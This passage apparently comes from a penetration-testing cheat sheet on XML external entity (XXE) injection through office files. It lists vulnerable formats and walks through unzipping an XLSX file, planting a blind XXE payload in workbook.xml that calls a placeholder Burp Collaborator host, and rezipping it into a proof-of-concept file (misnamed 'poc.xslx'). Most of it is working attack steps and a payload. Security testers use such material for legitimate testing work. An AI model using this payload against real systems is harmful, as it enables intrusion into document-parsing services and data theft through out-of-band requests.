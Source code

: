 ```xml
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

### XXE inside XLSX file

Extract the excel file.

```powershell
$ mkdir XXE && cd XXE
$ unzip ../XXE.xlsx
Archive:  ../XXE.xlsx
  inflating: xl/drawings/drawing1.xml
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/sharedStrings.xml
  inflating: xl/styles.xml
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: _rels/.rels
  inflating: [Content_Types].xml
```

Add your blind XXE payload inside `xl/workbook.xml`.

```powershell
<xml...>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<x>&xxe;</x>
<workbook...>
```

Rebuild the Excel file.

```powershell
$ zip -r ../poc.xslx *
updating: [Content_Types].xml (deflated 71%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 60%)
updating: docProps/ (stored 0%)
updating: docProps/app.xml (deflated 51%)
updating: docProps/core.xml (deflated 50%)
updating: xl/ (stored 0%)
updating: xl/workbook.xml (deflated 56%)
updating: xl/worksheets/ (stored 0%)
updating: xl/worksheets/sheet1.xml (deflated 53%)
updating: xl/styles.xml (deflated 60%)
updating: xl/theme/ (stored 0%)
updating: xl/theme/theme1.xml (deflated 80%)
updating: xl/_rels/ (stored 0%)
updating: xl/_rels/workbook.xml.rels (deflated 66%)
updating: xl/sharedStrings.xml (deflated 17%)
```

